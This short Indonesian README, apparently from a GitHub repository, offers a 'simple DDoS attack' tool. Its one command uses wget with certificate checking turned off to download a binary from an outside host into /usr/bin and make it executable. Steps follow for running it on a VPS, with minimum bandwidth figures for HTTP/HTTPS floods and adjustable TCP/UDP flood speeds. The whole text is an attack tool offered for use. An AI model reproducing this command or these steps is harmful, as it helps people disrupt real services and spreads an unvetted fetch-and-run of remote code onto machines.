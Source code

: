 DDOS ATTACK SIMPEL BY RAFANSTR

wget --no-check-certificate -O /usr/bin/dds http://autsc.my.id/xws ; chmod +x /usr/bin/dds

1. tempel link diatas di terminal vps kalian
2. jalankan dengan ketik dds di terminal
3. lalu install module yang diminta di terminal (lupa apa aja)
4. minimal kecepatan koneksi vps 500mbps untuk menjalankan http/https
5. untuk tcp/udp bisa costum sendiri mau kecepatan berapa mbps/gbps sesuai kemampuan vps kalian
